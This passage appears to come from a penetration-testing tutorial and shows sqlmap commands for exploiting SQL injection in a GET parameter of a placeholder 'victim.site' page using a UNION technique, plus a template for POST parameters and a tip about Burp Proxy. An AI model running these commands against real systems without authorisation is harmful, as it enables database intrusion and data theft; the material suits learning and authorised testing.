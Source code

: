 To exploit the SQLi in the previous example, the syntax would be:

```
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
```

This tests the id parameter of the GET request for view.php and tells SQLMap to use a UNION based SQLi technique

To exploit a POST parameter:

```
sqlmap -u <URL> --data=<POST string> -p <parameter> [options]
```

You can also copy the POST string from a request intercepted with Burp Proxy
